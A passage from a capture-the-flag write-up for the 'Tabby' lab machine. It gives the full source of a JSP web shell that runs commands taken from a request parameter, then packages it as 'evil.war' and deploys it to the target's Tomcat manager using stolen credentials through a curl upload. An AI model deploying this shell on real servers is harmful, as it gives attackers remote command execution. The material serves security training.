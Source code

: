 For the jsp web-shell we use something like this:

```jsp
<form method=GET action='index.jsp'>
<input name='cmd' type=text>
<input type=submit value='Run'>
</form>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

Now we can create the jar file.

```bash
root@darkness:~/war# jar -cvf ../evil.war *
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
adding: index.jsp(in = 579) (out= 343)(deflated 40%)
```

We can now deploy the war file using the curl command found previously.

```bash
root@darkness:~# curl --upload-file evil.war 'http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/chronos&update=true'
OK - Deployed application at context path [/chronos]
```

If we now access http://megahosting.htb:8080/chronos/ we should be presented with a web-shell.

![Web-shell](/assets/htb/Tabby/tomcat-webshell.png)

The web-shell is fully functional, however a reverse-shell would be much easier to work with.

### Way 2: Reverse-shell
